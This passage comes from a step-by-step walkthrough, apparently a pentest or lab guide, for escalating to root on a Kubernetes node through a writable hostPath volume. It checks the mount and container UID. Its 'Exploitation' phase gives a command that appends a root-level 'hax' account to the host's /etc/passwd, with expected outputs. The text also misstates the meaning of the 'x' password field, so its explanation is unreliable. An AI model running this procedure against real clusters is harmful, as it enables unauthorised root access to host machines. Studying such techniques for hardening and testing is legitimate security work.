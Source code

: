    **Explanation:** This sequence of commands first lists the contents of the mounted host path to confirm it's properly mounted. Then, it attempts to write a file (`testfile.txt`) to the mounted volume.  Finally, it lists the created file to check permissions and reads the file content to ensure writing was successful.

    **Expected Output:**
    *   `ls -l /host`:  Should list the contents of `/tmp/hostpath_test` on the host (may be empty initially).
    *   `echo "Hello from container" > /host/testfile.txt`: Should execute without errors.
    *   `ls -l /host/testfile.txt`: Should display file permissions and ownership. If the UID/GID is the same as the host's file system, this indicates a higher probability of exploitation.
    *   `cat /host/testfile.txt`: Should output "Hello from container".

5.  **Validate UID and GID:**

    ```bash
    id
    ```

    **Explanation:** This command will display the user ID (UID) and group ID (GID) that the `busybox` container is running as. This is a crucial piece of information to understand the permissions within the host volume.

    **Expected Output:** A line similar to `uid=1000(someuser) gid=1000(someuser) groups=1000(someuser)`
    If the UID is `0`, the pod is running as root. This makes privilege escalation significantly easier.

### Phase 2: Exploitation - Modifying Host Files

This phase aims to exploit the writable `hostPath` volume to achieve privilege escalation on the host node. **This requires knowledge of the target host system and potential vulnerable configurations. Example is modifying /etc/passwd**

1. **(DANGER!) - Attempt to modify /etc/passwd (Example):**

   ```bash
   echo "hax:x:0:0:root:/root:/bin/bash" >> /host/etc/passwd
   ```

   **Explanation:**  This command attempts to append a new user (`hax`) with UID 0 (root) to the `/etc/passwd` file on the host, through the mounted volume `/host`. **Warning: This could potentially break the host system if not done carefully. This is an example. Always test in a controlled environment! Consider backing up /etc/passwd first, if possible.**
   **Important:** Replace `/host/etc/passwd` with the correct path of the `/etc/passwd` file based on the host system's layout. If the host uses a different authentication mechanism, this exploit will not work.

   **Expected Output:**  Ideally, no error message. If the container user has insufficient permissions, you'll see a "Permission denied" error.

2. **Check for the presence of a root shell**

   If step 1 succeeds, you can try to log in to the host as the `hax` user (if the host allows local logins and the `/etc/passwd` file is used for authentication).  This requires knowing the password of the "x" hash, which will be an empty string, but in most modern systems /etc/passwd is not allowed, or needs to be paired with a valid entry in /etc/shadow, which is often not writeable from the container.
